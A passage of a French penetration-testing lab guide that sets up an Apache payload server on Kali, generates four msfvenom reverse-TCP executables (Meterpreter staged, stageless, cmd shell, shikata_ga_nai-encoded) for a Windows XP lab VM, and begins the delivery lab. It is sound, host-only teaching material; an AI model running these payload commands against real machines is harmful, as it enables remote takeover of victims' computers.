- `Require all granted` : autorise l'accès depuis le réseau host-only. Cette directive ne doit pas être copiée telle quelle sur un serveur exposé à Internet.
- `a2enconf payloads` : active le fichier de configuration en créant un lien dans `conf-enabled`.
- `apache2ctl configtest` : vérifie la syntaxe de l'ensemble de la configuration. Le résultat attendu est `Syntax OK`.
- `service apache2 restart` : redémarre Apache pour charger l'alias. Un simple `reload` suffit souvent, mais `restart` garantit la prise en compte sur toutes les versions.
- `prouve ... sudo bash -c 'apache2ctl configtest; systemctl is-active apache2'` : enregistre le contrôle de syntaxe et l'état du service dans `apache-config.txt`. `sudo` évite les erreurs de lecture des fichiers de configuration. `apache2ctl configtest` doit afficher `Syntax OK` ; `systemctl is-active apache2` doit afficher `active`.
- Piège : un `403` sur `/payloads/` n'est pas une erreur. Un `404` indique que l'alias n'est pas actif ; vérifiez `a2enconf` et le redémarrage.

**Résultat attendu**

```text
Enabling conf payloads.
To activate the new configuration, you need to run:
  systemctl reload apache2
Syntax OK
active
```

Le fichier de preuve contient `Syntax OK` et `active`.

**Preuve** — `preuves/ch2-lab01/apache-config.txt`.

#### Étape 6 — Tester le serveur depuis Kali

**But** — vérifier que le listing est refusé et qu'un fichier texte est bien servi.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — alias Apache actif, Apache redémarré.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
printf 'serveur payloads operationnel\n' > /var/www/payloads/test.txt
prouve preuves/ch2-lab01/curl-repertoire.txt curl -s -o /dev/null -w 'HTTP %{http_code}\n' http://192.168.56.101/payloads/
prouve preuves/ch2-lab01/curl-test.txt curl -s http://192.168.56.101/payloads/test.txt
```

**Explication de la commande**

- `printf '...' > /var/www/payloads/test.txt` : crée un fichier texte de test. La redirection `>` écrase le fichier s'il existe.
- `curl -s` : mode silencieux, sans barre de progression.
- `-o /dev/null` : envoie le corps de la réponse dans le vide ; seul le code HTTP nous intéresse.
- `-w 'HTTP %{http_code}\n'` : affiche le code de statut HTTP suivi d'un saut de ligne. `%{http_code}` est remplacé par `403`, `200`, etc.
- `http://192.168.56.101/payloads/` : URL du répertoire. Le slash final est important : sans lui, Apache peut rediriger vers l'URL avec slash.
- Le second `curl` récupère `test.txt` et affiche son contenu.
- Piège : si le premier `curl` renvoie `404`, l'alias n'est pas chargé. Si le second renvoie `403`, les permissions du fichier ou du répertoire sont trop restrictives.

**Résultat attendu**

```text
HTTP 403
serveur payloads operationnel
```

**Preuve** — `preuves/ch2-lab01/curl-repertoire.txt` et `preuves/ch2-lab01/curl-test.txt`.

#### Étape 7 — Vérifier l'accès depuis Windows XP

**But** — prouver que la cible `192.168.56.104` peut atteindre le serveur de payloads et récupérer un fichier.

**Machine** — Windows XP `192.168.56.104`, interface graphique ; puis Kali pour lire le journal Apache.

**Prérequis** — Windows XP démarré, connecté au réseau host-only (adaptateur `vboxnet0` côté hôte), Internet Explorer disponible, aucun proxy configuré.

> **Machine** : Windows XP `192.168.56.104` | **Terminal** : Internet Explorer | **Utilisateur** : `win` | **Répertoire** : `C:\Documents and Settings\win`

**Exemple de commande**

Dans la barre d'adresse d'Internet Explorer, ouvrir successivement :

```text
http://192.168.56.101/payloads/test.txt
http://192.168.56.101/payloads/
```

**Explication de la commande**

- La première URL demande le fichier texte. Internet Explorer doit afficher `serveur payloads operationnel`.
- La seconde URL demande le répertoire. Apache doit répondre `403 Forbidden` puisque `Options -Indexes` est actif.
- Le navigateur envoie une requête HTTP `GET` depuis `192.168.56.104` vers `192.168.56.101:80`. Cette requête est la preuve de connectivité de la chaîne de livraison.
- Piège : si Internet Explorer affiche une page d'erreur de proxy, désactivez le proxy dans `Outils > Options Internet > Connexions > Paramètres réseau`. Le laboratoire n'utilise aucun proxy.
- Piège : si la page reste blanche, vérifiez que l'adresse de Kali est bien `192.168.56.101` et qu'Apache écoute sur le port 80.

**Résultat attendu**

Le navigateur affiche :

```text
serveur payloads operationnel
```

puis, pour le répertoire :

```text
Forbidden
You don't have permission to access this resource.
```

**Preuve** — sur Kali, lire le journal d'accès Apache :

```bash
sudo -v
prouve preuves/ch2-lab01/acces-xp.txt sudo tail -n 20 /var/log/apache2/access.log
```

- `sudo -v` : met à jour le cache d'authentification `sudo`. Exécuté avant `prouve`, il évite que l'invite de mot de passe soit capturée dans le fichier de preuve.
- `tail -n 20` : affiche les vingt dernières lignes du journal d'accès.
- La ligne attendue contient l'adresse `192.168.56.104`, la requête `GET /payloads/test.txt HTTP/1.1`, le code `200` et un `User-Agent` de type `Mozilla/4.0 (compatible; MSIE ...)`.

Résultat attendu :

```text
192.168.56.104 - - [date] "GET /payloads/test.txt HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
192.168.56.104 - - [date] "GET /payloads/ HTTP/1.1" 403 ... "Mozilla/4.0 (compatible; MSIE ...)"
```

**Preuve** — `preuves/ch2-lab01/acces-xp.txt`.

#### Étape 8 — Consigner le bilan de préparation

**But** — produire une preuve synthétique qui confirme les trois conditions du lab : répertoire, fichier de test et alias.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étapes 1 à 7 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo -v
prouve preuves/ch2-lab01/bilan.txt bash -c '
  test -d /var/www/payloads && echo "repertoire: OK"
  test -f /var/www/payloads/test.txt && echo "fichier test: OK"
  sudo apache2ctl configtest 2>&1
  curl -s -o /dev/null -w "HTTP %{http_code}\n" http://192.168.56.101/payloads/
'
```

**Explication de la commande**

- `sudo -v` : met à jour le cache `sudo` avant la preuve. L'invite de mot de passe n'est ainsi pas capturée dans le fichier.
- `test -d /var/www/payloads` : vérifie que le chemin existe et qu'il s'agit d'un répertoire. Le code retour `0` signifie succès.
- `&& echo "repertoire: OK"` : n'affiche le message que si le test précédent réussit. En cas d'échec, la ligne suivante s'exécute quand même car les commandes sont séparées par des retours à la ligne, pas par `&&`.
- `test -f /var/www/payloads/test.txt` : vérifie que le fichier de test existe et qu'il s'agit d'un fichier régulier.
- `sudo apache2ctl configtest 2>&1` : vérifie la syntaxe avec les droits de lecture nécessaires et redirige les erreurs vers la sortie standard pour qu'elles soient capturées.
- `curl -s -o /dev/null -w "HTTP %{http_code}\n"` : confirme que le listing renvoie toujours `403`.
- Piège : ce bilan ne teste pas l'accès depuis Windows XP. La preuve de cet accès est le journal Apache de l'étape 7.

**Résultat attendu**

```text
repertoire: OK
fichier test: OK
Syntax OK
HTTP 403
```

**Preuve** — `preuves/ch2-lab01/bilan.txt`.

### En conclusion

Le Lab-01 a préparé la chaîne de livraison sans générer de payload. Metasploit répond, le module `exploit/multi/handler` est disponible, Apache sert `/var/www/payloads` et Windows XP a récupéré le fichier de test par HTTP. Le journal Apache contient la preuve de l'accès depuis `192.168.56.104`.

Critères de réussite :

- `preuves/ch2-lab01/` contient les preuves des étapes 1 à 8 ;
- `type prouve` renvoie une fonction chargée ;
- `msfconsole --version` affiche une version de framework ;
- `exploit/multi/handler` apparaît dans la recherche ;
- `/var/www/payloads` appartient à `kali` avec les permissions `755` ;
- `curl` renvoie `403` sur le répertoire et `200` sur `test.txt` ;
- le journal Apache contient une requête `GET /payloads/test.txt` provenant de `192.168.56.104`.

Le Lab-02 génère maintenant les quatre payloads Windows XP dans ce répertoire. Le fichier `test.txt` peut rester en place jusqu'au Lab-05 ; il sera supprimé avec les payloads lors du nettoyage.

## Lab-02 — Génération de payloads Windows XP avec msfvenom

### Énoncé / Contexte

Ce lab génère quatre exécutables Windows XP avec `msfvenom` : un payload Meterpreter stageless, un payload Meterpreter staged, un payload shell reverse et une variante encodée du payload staged. Les fichiers sont écrits dans `/var/www/payloads`, puis contrôlés par `file`, `ls` et `sha256sum`. Aucun fichier n'est exécuté dans ce lab.

**Place dans la chaîne** — après la préparation du serveur (Lab-01), avant la livraison et l'exécution sur Windows XP (Lab-03). Les fichiers produits ici sont les entrées du Lab-03.

**Objectifs pédagogiques** — à la fin de ce lab, vous devez être capable de :

- expliquer la syntaxe générale de `msfvenom` et le rôle de `-p`, `LHOST`, `LPORT`, `-f` et `-o` ;
- générer un payload stageless et un payload staged pour Windows XP ;
- générer un payload shell reverse et un payload encodé avec `x86/shikata_ga_nai` ;
- distinguer la taille du payload de la taille finale du fichier EXE ;
- vérifier qu'un fichier est bien un exécutable PE32 et calculer son empreinte SHA-256 ;
- expliquer pourquoi l'encodage ne garantit pas l'évasion antivirus.

**Périmètre et sécurité** — toutes les commandes s'exécutent sur Kali `192.168.56.101`. Aucun payload n'est copié ni exécuté sur Windows XP dans ce lab. Les fichiers restent dans `/var/www/payloads`, accessible uniquement sur le réseau host-only. Les empreintes sont conservées comme preuves ; les fichiers seront supprimés au Lab-05.

**Critères de réussite** — les quatre fichiers existent, `file` les identifie comme `PE32 executable`, `sha256sum` produit une empreinte par fichier, et chacun répond `200` sur le serveur HTTP. Les tailles sont cohérentes avec le type de payload, sans comparaison octet par octet entre versions de Metasploit.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `msfvenom` | `msfvenom --list payloads` | Lister les payloads disponibles |
| `msfvenom` | `msfvenom -p <payload> LHOST=... LPORT=... -f exe -o <fichier>` | Générer un exécutable Windows |
| `msfvenom` | `msfvenom ... -e x86/shikata_ga_nai -i 3` | Encoder le payload avec trois itérations |
| `file` | `file <fichier>` | Identifier le format du fichier |
| `ls` | `ls -lh <fichier>` | Afficher la taille lisible |
| `sha256sum` | `sha256sum <fichier>` | Calculer l'empreinte SHA-256 |
| `curl` | `curl -s -o /dev/null -w '%{http_code}'` | Vérifier l'accès HTTP au fichier |

### Commande et laboratoire étape par étape

#### Étape 1 — Lister les payloads Windows disponibles

**But** — identifier les noms exacts des payloads Windows XP avant de les utiliser dans les commandes de génération.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — Lab-01 terminé, `msfvenom` installé, fonction `prouve` chargée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/liste-payloads.txt bash -c '
  set -o pipefail
  msfvenom --list payloads 2>&1 | grep windows
'
```

**Explication de la commande**

- `prouve preuves/ch2-lab02/liste-payloads.txt` : exécute la commande suivante sous la fonction de preuve et écrit le résultat dans le fichier indiqué.
- `bash -c '...'` : exécute la séquence dans un shell enfant. Nécessaire pour utiliser un pipeline sous une seule preuve.
- `set -o pipefail` : dans ce shell enfant, force le pipeline à retourner un code non nul si `msfvenom` échoue, même si `grep` réussit. Sans cette ligne, une erreur de `msfvenom` pourrait être masquée.
- `msfvenom --list payloads` : affiche la liste complète des payloads. La sortie est volumineuse ; elle est filtrée avant d'être conservée.
- `2>&1` : redirige la sortie d'erreur vers la sortie standard pour que les messages d'avertissement soient aussi filtrés et enregistrés.
- `| grep windows` : ne conserve que les lignes contenant `windows`, c'est-à-dire les payloads de la plateforme Windows.
- Piège : la liste contient aussi des payloads `windows/x64`. Windows XP 32 bits utilise les payloads `windows/...` sans suffixe `x64`.

**Résultat attendu**

```text
windows/dllinject/reverse_tcp
windows/meterpreter/reverse_tcp
windows/meterpreter_reverse_tcp
windows/shell/reverse_tcp
windows/vncinject/reverse_tcp
...
```

La liste exacte dépend de la version de Metasploit. Les trois noms utilisés dans ce lab doivent apparaître : `windows/meterpreter_reverse_tcp`, `windows/meterpreter/reverse_tcp` et `windows/shell/reverse_tcp`.

**Preuve** — `preuves/ch2-lab02/liste-payloads.txt`.

#### Étape 2 — Générer le payload Meterpreter stageless

**But** — produire un exécutable autonome qui contient tout Meterpreter et se connecte à Kali sur le port 4444.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — `/var/www/payloads` appartient à `kali` et est inscriptible.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/msfvenom-stageless.txt msfvenom \
  -p windows/meterpreter_reverse_tcp \
  LHOST=192.168.56.101 LPORT=4444 \
  -f exe -o /var/www/payloads/windows_xp_stageless.exe
```

**Explication de la commande**

- `msfvenom` : générateur de payloads autonome fourni avec Metasploit.
- `-p windows/meterpreter_reverse_tcp` : sélectionne le payload Meterpreter stageless. Le underscore entre `meterpreter` et `reverse` indique un payload en une seule partie.
- `LHOST=192.168.56.101` : adresse de Kali que le payload contacte. Elle doit être joignable depuis Windows XP.
- `LPORT=4444` : port TCP d'écoute sur Kali. Il sera utilisé par le handler au Lab-03.
- `-f exe` : format de sortie exécutable Windows.
- `-o /var/www/payloads/windows_xp_stageless.exe` : chemin complet du fichier de sortie.
- La commande est écrite sur plusieurs lignes avec `\` pour la lisibilité ; le shell recolle les lignes en une seule commande.
- Piège : `LHOST` doit être l'adresse de Kali sur le réseau host-only, pas `127.0.0.1`. Un payload généré avec `127.0.0.1` ne pourrait pas joindre Kali depuis Windows XP.

**Résultat attendu**

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 200123 bytes
Final size of exe file: 206848 bytes
Saved as: /var/www/payloads/windows_xp_stageless.exe
```

Les lignes `[-]` sont des messages informatifs, pas des erreurs : `msfvenom` déduit la plateforme et l'architecture du payload. Les tailles exactes varient selon la version de Metasploit. Le fichier doit exister et faire de l'ordre de 200 Ko.

**Preuve** — `preuves/ch2-lab02/msfvenom-stageless.txt`.

#### Étape 3 — Vérifier le payload stageless

**But** — confirmer le format PE32, la taille et l'empreinte du fichier généré.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 2 terminée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/verification-stageless.txt bash -c '
  file /var/www/payloads/windows_xp_stageless.exe
  ls -lh /var/www/payloads/windows_xp_stageless.exe
  sha256sum /var/www/payloads/windows_xp_stageless.exe
'
```

**Explication de la commande**

- `file` : lit les octets d'en-tête du fichier et identifie son format. Pour un exécutable Windows 32 bits, la sortie contient `PE32 executable`.
- `ls -lh` : affiche la taille en unités lisibles (`K`, `M`) et les permissions du fichier.
- `sha256sum` : calcule l'empreinte SHA-256 du fichier. Elle sert d'identifiant de preuve et d'IOC.
- Les trois commandes sont exécutées dans le même shell enfant pour figurer dans une seule preuve.
- Piège : une empreinte change si le fichier est régénéré, même avec les mêmes options, car le template PE peut contenir des données variables. Comparez les empreintes d'une même exécution, pas entre deux générations.

**Résultat attendu**

```text
/var/www/payloads/windows_xp_stageless.exe: PE32 executable (GUI) Intel 80386, for MS Windows
-rwxr-xr-x 1 kali kali 202K ... /var/www/payloads/windows_xp_stageless.exe
<sha256_stageless>  /var/www/payloads/windows_xp_stageless.exe
```

La taille exacte et l'empreinte dépendent de la version de Metasploit. Remplacez `<sha256_stageless>` par l'empreinte observée. Le format `PE32 executable (GUI) Intel 80386` est le résultat attendu.

**Preuve** — `preuves/ch2-lab02/verification-stageless.txt`.

#### Étape 4 — Générer le payload Meterpreter staged

**But** — produire un exécutable staged qui établit une connexion vers Kali sur le port 4445, puis télécharge le second stage.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 2 terminée, port `4445` libre sur Kali.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/msfvenom-staged.txt msfvenom \
  -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.56.101 LPORT=4445 \
  -f exe -o /var/www/payloads/windows_xp_staged.exe
```

**Explication de la commande**

- `-p windows/meterpreter/reverse_tcp` : payload staged. Le slash entre `meterpreter` et `reverse` indique que le payload est composé d'un stager et d'un stage.
- `LPORT=4445` : port distinct du payload stageless. Cela permet de lancer les deux handlers en parallèle sans conflit d'écoute.
- `-f exe -o /var/www/payloads/windows_xp_staged.exe` : produit un fichier EXE distinct.
- Le stager contenu dans l'EXE est petit ; le second stage est téléchargé après la connexion initiale. La taille finale du fichier reste néanmoins de plusieurs dizaines de Ko à cause du template PE.
- Piège : le payload staged exige que le handler utilise le même nom de payload (`windows/meterpreter/reverse_tcp`). Un handler stageless ne comprendrait pas le stager.

**Résultat attendu**

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/payloads/windows_xp_staged.exe
```

La taille du payload seul est de quelques centaines d'octets ; la taille finale du fichier EXE est de l'ordre de plusieurs dizaines de Ko. Les valeurs exactes varient selon la version.

**Preuve** — `preuves/ch2-lab02/msfvenom-staged.txt`.

#### Étape 5 — Vérifier le payload staged

**But** — confirmer le format et l'empreinte du payload staged.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 4 terminée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/verification-staged.txt bash -c '
  file /var/www/payloads/windows_xp_staged.exe
  ls -lh /var/www/payloads/windows_xp_staged.exe
  sha256sum /var/www/payloads/windows_xp_staged.exe
'
```

**Explication de la commande**

- `file` doit renvoyer `PE32 executable`, comme pour le payload stageless.
- `ls -lh` permet de comparer la taille du fichier staged à celle du stageless. Le fichier staged est plus petit, mais reste un EXE complet avec son template.
- `sha256sum` produit l'empreinte du stager.
- Piège : ne concluez pas que le fichier staged contient tout Meterpreter parce qu'il fait plusieurs dizaines de Ko. Le second stage est téléchargé à l'exécution.

**Résultat attendu**

```text
/var/www/payloads/windows_xp_staged.exe: PE32 executable (GUI) Intel 80386, for MS Windows
-rwxr-xr-x 1 kali kali 73K ... /var/www/payloads/windows_xp_staged.exe
<sha256_staged>  /var/www/payloads/windows_xp_staged.exe
```

Remplacez `<sha256_staged>` par l'empreinte observée dans votre exécution.

**Preuve** — `preuves/ch2-lab02/verification-staged.txt`.

#### Étape 6 — Générer le payload shell reverse

**But** — produire un payload qui ouvre un shell `cmd.exe` sur Windows XP, sans les fonctions Meterpreter.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 4 terminée, port `5555` libre.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/msfvenom-shell.txt msfvenom \
  -p windows/shell/reverse_tcp \
  LHOST=192.168.56.101 LPORT=5555 \
  -f exe -o /var/www/payloads/windows_xp_shell.exe
```

**Explication de la commande**

- `-p windows/shell/reverse_tcp` : payload staged qui fournit un shell Windows basique. Le stager télécharge le composant qui ouvre `cmd.exe`.
- `LPORT=5555` : port dédié au shell, distinct des ports Meterpreter.
- `-f exe -o /var/www/payloads/windows_xp_shell.exe` : fichier EXE distinct.
- Le payload shell ne fournit pas `sysinfo`, `getuid`, `download` ni `screenshot`. Ces commandes sont propres à Meterpreter. Le Lab-03 utilise `hostname`, `echo %USERNAME%` et `ipconfig` dans le shell.
- Piège : `windows/shell_reverse_tcp` (avec underscore) est un payload stageless différent. Le nom exact utilisé ici est `windows/shell/reverse_tcp`.

**Résultat attendu**

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 275 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/payloads/windows_xp_shell.exe
```

**Preuve** — `preuves/ch2-lab02/msfvenom-shell.txt`.

#### Étape 7 — Générer le payload encodé

**But** — produire une variante encodée du payload Meterpreter staged et observer l'effet de l'encodage sur la taille et l'empreinte.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 4 terminée, encodeur `x86/shikata_ga_nai` disponible.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/msfvenom-encoded.txt msfvenom \
  -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.56.101 LPORT=4444 \
  -e x86/shikata_ga_nai -i 3 \
  -f exe -o /var/www/payloads/windows_xp_encoded.exe
```

**Explication de la commande**

- `-p windows/meterpreter/reverse_tcp` : même payload staged que l'étape 4, pour comparer à taille et options égales.
- `LPORT=4444` : port du payload stageless. Le fichier encodé est une variante indépendante ; il sera testé avec un handler sur le port 4444.
- `-e x86/shikata_ga_nai` : sélectionne l'encodeur XOR polymorphe `shikata_ga_nai` pour l'architecture x86.
- `-i 3` : applique l'encodage trois fois. Chaque itération ajoute une couche de décodage au payload.
- `-f exe -o ...` : produit l'exécutable encodé.
- L'encodage transforme la représentation binaire du payload. Il ne garantit pas l'évasion des antivirus modernes, qui utilisent des signatures, des heuristiques et des analyses comportementales.
- Piège : `shikata_ga_nai` est un encodeur x86. Il ne s'applique pas à un payload x64. Windows XP 32 bits utilise bien l'architecture x86.

**Résultat attendu**

```text
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai succeeded with size 387 (iteration=1)
x86/shikata_ga_nai succeeded with size 414 (iteration=2)
x86/shikata_ga_nai chosen with final size 414
Payload size: 414 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/payloads/windows_xp_encoded.exe
```

Les tailles d'itération et la taille finale dépendent de la version de Metasploit. L'important est que le fichier soit créé et que `file` le reconnaisse comme PE32.

**Preuve** — `preuves/ch2-lab02/msfvenom-encoded.txt`.

#### Étape 8 — Vérifier le payload encodé

**But** — confirmer que l'encodage n'a pas cassé le format exécutable.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étape 7 terminée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/verification-encoded.txt bash -c '
  file /var/www/payloads/windows_xp_encoded.exe
  ls -lh /var/www/payloads/windows_xp_encoded.exe
  sha256sum /var/www/payloads/windows_xp_encoded.exe
'
```

**Explication de la commande**

- `file` vérifie que l'en-tête PE32 est intact après encodage.
- `ls -lh` montre la taille du fichier encodé. Elle est proche de celle du payload staged non encodé : la taille finale reste dominée par le template PE, et le surcoût des couches d'encodage est absorbé dans ce template.
- `sha256sum` produit une empreinte différente de celle du payload staged non encodé, même si le payload fonctionnel est le même.
- Piège : une empreinte différente ne prouve pas que le payload est plus furtif. Elle prouve seulement que les octets diffèrent.

**Résultat attendu**

```text
/var/www/payloads/windows_xp_encoded.exe: PE32 executable (GUI) Intel 80386, for MS Windows
-rwxr-xr-x 1 kali kali 73K ... /var/www/payloads/windows_xp_encoded.exe
<sha256_encoded>  /var/www/payloads/windows_xp_encoded.exe
```

**Preuve** — `preuves/ch2-lab02/verification-encoded.txt`.

#### Étape 9 — Comparer les tailles et les empreintes

**But** — produire un tableau de comparaison des quatre fichiers et conserver les empreintes comme IOC.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étapes 2 à 8 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/comparaison.txt bash -c '
  ls -lh /var/www/payloads/*.exe
  sha256sum /var/www/payloads/*.exe
'
```

**Explication de la commande**

- `ls -lh /var/www/payloads/*.exe` : liste tous les exécutables du répertoire avec leur taille lisible. Le glob `*.exe` est développé par le shell avant l'exécution.
- `sha256sum /var/www/payloads/*.exe` : calcule une empreinte pour chaque fichier. La sortie associe l'empreinte au chemin du fichier.
- La comparaison porte sur les ordres de grandeur, pas sur les octets exacts : les tailles varient selon la version de Metasploit et le template PE.
- Piège : ne classez pas le payload shell comme stageless parce que son fichier est plus gros que le stager. Le nom `windows/shell/reverse_tcp` indique un payload staged.

**Résultat attendu**

```text
-rwxr-xr-x 1 kali kali  73K ... /var/www/payloads/windows_xp_encoded.exe
-rwxr-xr-x 1 kali kali  73K ... /var/www/payloads/windows_xp_shell.exe
-rwxr-xr-x 1 kali kali  73K ... /var/www/payloads/windows_xp_staged.exe
-rwxr-xr-x 1 kali kali 202K ... /var/www/payloads/windows_xp_stageless.exe
<sha256_encoded>   /var/www/payloads/windows_xp_encoded.exe
<sha256_shell>     /var/www/payloads/windows_xp_shell.exe
<sha256_staged>    /var/www/payloads/windows_xp_staged.exe
<sha256_stageless> /var/www/payloads/windows_xp_stageless.exe
```

Les valeurs `<sha256_...>` sont des emplacements à remplacer par les empreintes observées dans votre exécution. Elles ne sont pas des empreintes réelles et ne doivent pas être recopiées telles quelles dans un rapport.

Tableau de lecture :

| Fichier | Ordre de grandeur | Type | Interprétation |
|---|---|---|---|
| `windows_xp_stageless.exe` | ~200 Ko | Stageless | Meterpreter complet, autonome |
| `windows_xp_staged.exe` | ~70 Ko | Staged | Stager initial, second stage téléchargé |
| `windows_xp_shell.exe` | ~70 Ko | Staged | Stager du shell `cmd.exe` |
| `windows_xp_encoded.exe` | ~73 Ko | Staged encodé | Stager avec trois couches d'encodage |

**Preuve** — `preuves/ch2-lab02/comparaison.txt`.

#### Étape 10 — Vérifier l'accès HTTP aux quatre fichiers

**But** — confirmer que les quatre exécutables sont servis par Apache avant le Lab-03.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — Apache actif, alias `/payloads` configuré au Lab-01.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab02/acces-http.txt bash -c '
  for f in windows_xp_stageless.exe windows_xp_staged.exe windows_xp_shell.exe windows_xp_encoded.exe; do
    code=$(curl -s -o /dev/null -w "%{http_code}" "http://192.168.56.101/payloads/$f")
    printf "%s %s\n" "$code" "$f"
  done
'
```

**Explication de la commande**

- `for f in ...; do ...; done` : répète le bloc pour chaque nom de fichier de la liste.
- `code=$(curl ...)` : exécute `curl` et stocke le code HTTP dans la variable `code`. La substitution de commande `$(...)` remplace l'appel par sa sortie.
- `curl -s -o /dev/null -w "%{http_code}"` : récupère le fichier sans afficher le corps et imprime uniquement le code de statut.
- `printf "%s %s\n" "$code" "$f"` : affiche le code puis le nom du fichier, dans un format lisible et stable.
- Piège : `%{http_code}` doit être entre guillemets simples ou échappé correctement. Une faute de quoting fait afficher la chaîne littérale au lieu du code.

**Résultat attendu**

```text
200 windows_xp_stageless.exe
200 windows_xp_staged.exe
200 windows_xp_shell.exe
200 windows_xp_encoded.exe
```

Un code `404` indique que le fichier n'est pas dans `/var/www/payloads` ou que l'alias Apache ne fonctionne plus. Un code `403` indique un problème de permissions.

**Preuve** — `preuves/ch2-lab02/acces-http.txt`.

### En conclusion

Le Lab-02 a produit quatre exécutables Windows XP dans `/var/www/payloads` : un Meterpreter stageless, un Meterpreter staged, un shell reverse et une variante encodée. Les fichiers sont identifiés comme `PE32 executable`, leurs empreintes SHA-256 sont enregistrées et Apache les sert en HTTP `200`.

Points à retenir :

- le payload stageless contient tout le nécessaire et ne dépend pas d'un second téléchargement ;
- le payload staged est plus petit au départ, mais dépend du second stage ;
- la taille du fichier EXE inclut un template PE qui dépasse largement la taille du payload seul ;
- l'encodage modifie les octets et l'empreinte, mais ne garantit pas l'évasion antivirus ;
- les quatre fichiers sont prêts pour la livraison et l'exécution du Lab-03.

Critères de réussite :

- `preuves/ch2-lab02/` contient les preuves des étapes 1 à 10 ;
- les quatre fichiers existent dans `/var/www/payloads` ;
- `file` renvoie `PE32 executable` pour chacun ;
- `sha256sum` produit quatre empreintes distinctes ;
- les quatre URL répondent `200` ;
- les tailles sont cohérentes avec le type de payload.

Le Lab-03 livre ces fichiers à Windows XP, démarre le handler correspondant et prouve l'ouverture d'une session.

## Lab-03 — Livraison et exécution du payload sur Windows XP

### Énoncé / Contexte

Ce lab livre les exécutables du Lab-02 à Windows XP par HTTP, les exécute sous le compte `win` et obtient une session inverse sur Kali. Le test de référence utilise le payload stageless et le port 4444. Deux variantes sont ensuite testées : le payload staged sur le port 4445 et le payload shell sur le port 5555.

**Place dans la chaîne** — après la génération des payloads (Lab-02), avant l'exploration de la session Meterpreter (Lab-04). C'est l'étape qui transforme un fichier en accès réel et qui produit les preuves d'exécution.

**Objectifs pédagogiques** — à la fin de ce lab, vous devez être capable de :

- vérifier le snapshot Windows XP avant toute exécution ;
- écrire un fichier de ressources Metasploit pour `exploit/multi/handler` ;
- lancer un handler, capturer le trafic et livrer un payload par HTTP ;
- provoquer l'exécution utilisateur sur Windows XP et constater l'ouverture d'une session ;
- distinguer une session Meterpreter d'une session shell `cmd.exe` ;
- arrêter proprement les sessions et les jobs avant de tester la variante suivante ;
- conserver un transcript de session et une capture réseau comme preuves.

**Périmètre et sécurité** — les payloads sont exécutés uniquement dans la VM Windows XP `192.168.56.104`, sur le réseau host-only. Le snapshot `WinXP` doit être présent avant le premier lancement. Aucun payload n'est copié vers l'hôte, aucun dossier partagé n'est utilisé et aucun accès Internet n'est établi. L'exécution se fait sous le compte `win`, sans élévation de privilèges et sans persistance.

